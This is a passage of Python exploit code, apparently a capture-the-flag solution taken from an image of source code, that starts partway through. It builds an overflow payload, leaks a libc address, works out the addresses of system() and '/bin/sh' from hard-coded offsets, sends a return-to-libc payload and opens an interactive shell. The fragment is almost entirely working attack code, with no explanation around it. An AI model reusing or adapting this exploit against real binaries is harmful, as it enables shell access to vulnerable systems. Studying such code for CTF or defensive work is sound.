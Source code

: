 ```
    payload+=p32(0x7fffffff);
    payload+=p32(0x7fffffff);
    payload+=0x14*"P";
    write(payload)
    readuntil("P"*0x14);
    libcdata=readlen(4);
    libcdata=u32(libcdata);
    system=libcdata-0x16a930
    binsh=libcdata-0x4a09c
    print hex(system)
    readall()
    sleep(0.1)
    payload=p32(system);
    payload+="xRET";
    payload+=p32(binsh)
    writeline(payload)
    readall()
    io.interactive();
attack()
```